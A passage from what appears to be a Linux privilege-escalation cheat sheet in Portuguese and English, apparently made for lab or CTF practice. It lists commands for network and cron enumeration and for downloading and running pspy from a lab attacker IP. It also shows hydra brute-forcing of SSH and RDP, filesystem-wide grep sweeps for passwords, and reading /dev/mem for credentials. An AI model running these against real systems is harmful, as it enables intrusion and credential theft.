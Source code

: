     netstat -napl
    netstat -naptl
    
    ss -anp

## Crontab (Serviços agendados)

    crontab -l
    cat /etc/crontab
    ls -lah /etc/cron* 

    grep "CRON" /var/log/cron.log

## Process Enumeration

< https://github.com/DominicBreuker/pspy>

    wget http://10.10.14.17/4-privilege_escalation/pspy32
    #ou
    wget http://10.10.14.17/4-privilege_escalation/pspy64
    chmod +x pspy64
    ./pspy64
    


## ReusedPassword

Tentar usuário e senha sendo o mesmo com hydra, por exemplo

    hydra -L user.txt -P user.txt 10.10.10.10 ssh
    hydra -L users.txt -P users.txt rdp://10.10.10.10

Tentar senha de um usuário para outro também e rockyou

## Credentials from config files

Procurar a string PASSWORD ou password dentro de arquivos

    grep -rnw / -e 'password\|pass\|creds\|senha\|credentials' 2>/dev/null -i

    find . -type f -exec grep -i -I "PASSWORD" {} /dev/null \;

    grep --color=auto -rnw '/' -ie "PASSWORD" --color=always 2> /dev/null

### SensitiveFileContent

    grep --color=auto -rnw '/' -ie "PASSWORD" --color=always 2> /dev/null
    
    
Nesse caso e interessante considerar que o diretorio que busco as informacoes e um diretorio de configuracoes de aplicacoes '/etc':

    grep --color=auto -rnw '/etc' -ie "PASSWORD" --color=always 2> /dev/null

In memory passwords
    
    strings /dev/mem -n10 | grep -i PASS
